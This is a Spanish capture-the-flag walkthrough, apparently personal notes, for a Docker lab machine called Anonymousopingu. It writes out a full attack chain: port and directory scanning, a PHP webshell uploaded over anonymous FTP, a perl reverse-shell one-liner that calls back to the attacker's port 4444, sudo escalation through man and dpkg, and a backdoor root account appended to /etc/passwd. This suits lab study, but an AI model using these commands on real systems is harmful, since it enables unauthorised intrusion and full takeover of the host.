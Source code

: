 ```yaml
---
Maquina: Anonymousopingu
SO: Linux
Explotación: Análisis de imágenes y web
Escala_privs: Permisos sudo
Dificultad: Fácil
tags:
  - maquina
  - web_discovery
  - analisis_imagen
  - linux
  - escala_privs
  - ssh
  - web
---
```

## Reconocimiento

1. **Explorar los puerto abiertos del docker**: 

```bash 
nmap -p- --open --min-rate 5000 -sS -Pn 172.17.0.2
```

![[Pasted image 20241024084225.png]]

2. **Ver la pagina web ubicada en el puerto 80**:

La página web para una web básica sobre una empresa genérica.

![[Pasted image 20241024085812.png]]

No hay nada muy a destacar salvo un formulario que cuando lo rellenas te devuelve al principio (no parece ni que almacene los datos).

![[Pasted image 20241024090228.png]]

Para seguir analizando el escenario en el que nos encontramos vamos a realizar un escaneo de subdirector mediante gobuster.

```bash
gobuster dir -u http://172.17.0.2 -w /home/alejandro/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -x .php,.py,.js,.txt
```

Pero tras analizar un poco lo que encontramos no parece que haya nada sospechoso, salvo la carpeta de uploads que por desgracia está vacía.

![[Pasted image 20241024091257.png]]

Tras investigar un poco el portal web vamos a pasar a investigar el FTP que también está activo y vamos a probar a entrar con usuario de anonymous.

![[Pasted image 20241024091349.png]]

Parece que si que tenemos acceso y se me ocurren ideas no muy agradables para la carpeta de upload... Esto pinta a una webshell de manual.

Vamos a intentar subir una webshell en PHP en la carpeta upload del FTP.

```bash
ftp 172.17.0.2 #Conexión al FTP

cd upload

put webshell.php #La web shell está en el directorio desde donde me he conectado al FTP
```

![[Pasted image 20241024092316.png]]

Vale ahora vamos a ver si la reconoce el portal web.

![[Pasted image 20241024092448.png]]

Parece que tocó premio, podemos ejecutar comandos. Ahora estaría bien hacer una reverse shell y poder trabajar desde nuestro equipo.

Para ello me voy a poner a la escucha en el puerto 4444 en el servidor atacante

```bash
nc -lvnp 4444
```

En el servidor atacado voy a intentar mandar una petición de conexión, como he estado mirando que servicios tiene al final voy a intentar realizarlo por perl.

```bash
perl -e 'use Socket;$i="172.17.0.1";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};'
```

Y tras ejecutar la petición vemos lo siguiente:

![[Pasted image 20241024093207.png]]

Ya estamos dentro desde terminal, ahora si podemos pasar a la escalada de privs.

Primero vamos a comprobar los permisos con un sudo -l.

```bash
sudo -l
```

![[Pasted image 20241024093318.png]]

Como podemos observar tenemos la posibilidad de ejecutar man como root... Vamos a ver que opina gtfobins de esto.

![[Pasted image 20241024093424.png]]

Parece que esto es una ventana a escalar privilegios, pero para ello necesitamos ejecutarlo como pingu, vamos a probar.

IMPORTANTE, antes de probar hay que tener un tratamiento de TTy realizado.

```bash
sudo -u pingu man man
#luego poner /bin/bash
```

Y una vez dentro del man probar a poner

```bash
!/bin/sh
```

Esto nos debería de dar una shell con el usuario de pingu

![[Pasted image 20241024102131.png]]

Ahora vamos a ver que permisos tenemos desde el usuario de pingu con el mismo comando de antes el sudo -l

![[Pasted image 20241024102223.png]]

Pues como tenemos acceso a nmap y dpkg con el usuario gladys, vamos a intentar primero con el dpkg.

```bash
sudo -u gladys dpkg -l
#luego poner /bin/bash
```

![[Pasted image 20241024102641.png]]

Y repetimos el proceso para gladys (sudo -l)

![[Pasted image 20241024102723.png]]

Como podemos observar tenemos permisos para cambiar el dueño de cualquier archivo...

```bash
sudo chown gladys:gladys /etc/passwd

echo 'newroot:$1$EBhVbkUV$zW3uLFiknxfdzUV5OjQZ40:0:0::/home/newroot:/bin/bash' >> /etc/passwd

su newroot #con passwd hola123 -> openssl passwd hola123
```

![[Pasted image 20241024103859.png]]
